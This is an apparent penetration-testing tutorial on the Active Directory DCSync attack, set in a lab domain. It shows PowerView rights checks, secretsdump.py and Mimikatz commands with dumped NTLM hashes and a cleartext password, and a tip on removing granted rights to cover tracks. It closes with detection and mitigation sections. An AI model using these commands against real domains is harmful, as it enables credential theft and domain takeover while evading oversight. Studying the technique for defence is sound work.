

# Overview
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.
<!-- more --> 
The core of the attack involves exploiting the DS-Replication-Get-Changes-All extended right to prompt a Domain Controller to replicate password data. This specific Active Directory permission grants access to replicate sensitive, secret information across the domain.


---

## Prerequisites: Checking Replication Rights

PowerView can be used to confirm that a user has the necessary replication permissions assigned to their account.

```powershell
$sid = "{sid-here}"

Get-ObjectAcl "DC=echoridge,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl


AceQualifier          : AccessAllowed
ObjectDN              : DC=echoridge,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=echoridge,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes
```

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

---

## Exploitation

### Using secretsdump.py (Linux)

Running the tool as below will write all hashes to files with the prefix `echoridge_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

```shell
$ secretsdump.py -outputfile echoridge_hashes -just-dc echoridge/adunn@172.16.5.5 

[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
echoridge.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
```

**Useful flags:**
- `-just-dc-ntlm` - Only extract NTLM hashes
- `-just-dc-user <USERNAME>` - Extract data for a specific user only
- `-pwd-last-set` - Show when each account's password was last changed
- `-history` - Dump password history
- `-user-status` - Check if a user is disabled

---

### Using Mimikatz (Windows)

Mimikatz must be run in the context of the user who has DCSync privileges. Use `runas.exe` to accomplish this:

```cmd
C:\> runas /netonly /user:echoridge\adunn powershell
Enter the password for echoridge\adunn:
Attempting to start powershell as user "echoridge\adunn" ...
```

From the newly spawned powershell session, perform the attack:

```powershell
PS C:\> .\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:echoridge.local /user:echoridge\administrator
[DC] 'echoridge.local' will be the domain
[DC] 'DC01.echoridge.local' will be the DC server
[DC] 'echoridge\administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@echoridge.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
```

**Note:** `sekurlsa::logonpasswords` for credentials in memory doesn't work past Server 2012.

---

### Targeted DCSync

Retrieve user SID and check permissions by providing samAccountName:
```powershell
$SID = Convert-Name-TO-SID <name>
get-domainobjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $SID}
```

Run mimikatz and dump NTLM Hash for the target user:
```
./mimikatz.exe
lsadump::dcsync /domain:{} /user:{domain\targetuser} 
```

---

## Reversible Encryption Passwords

When the "Store password using reversible encryption" option is set on a user account, passwords are stored using RC4 encryption (not cleartext). The key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin.

Tools like `secretsdump.py` will automatically decrypt any passwords stored using reversible encryption while dumping the NTDS file.

### Enumerate Accounts with Reversible Encryption

Using Get-ADUser:
```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=echoridge,DC=LOCAL
Enabled            : True
Name               : PROXYAGENT
SamAccountName     : proxyagent
userAccountControl : 640
```

Using PowerView:
```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

### Viewing Decrypted Passwords

The tool will decrypt the password and provide the cleartext value:
```shell
$ cat echoridge_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

---

## Detection

To detect DCSync activity, monitor the TargetLogonId from Event 4624 and correlate it with other security events tied to the same logon session. DCSync generates a Network Logon type (3) on the DC. By linking Event 4662 (which tracks directory access) with Event 4624 using the LogonId, defenders can identify the source IP of the DCSync request.




## Mitigations

DCSync attacks exploit replication permissions in Active Directory to extract sensitive credentials. To mitigate:

1. **Limit replication rights** - Only Domain Controllers and essential admin accounts should have replication privileges. Audit and remove unnecessary permissions.

2. **Monitor for DCSync behavior** - Detect suspicious replication attempts by monitoring security logs and using threat detection tools.

3. **Protect privileged accounts** - Restrict and monitor Domain Admins. Use tiered admin models and Protected Users group where possible.

4. **Regularly audit privileged access** - Frequently review permissions and group memberships. Remove outdated accounts and rotate credentials.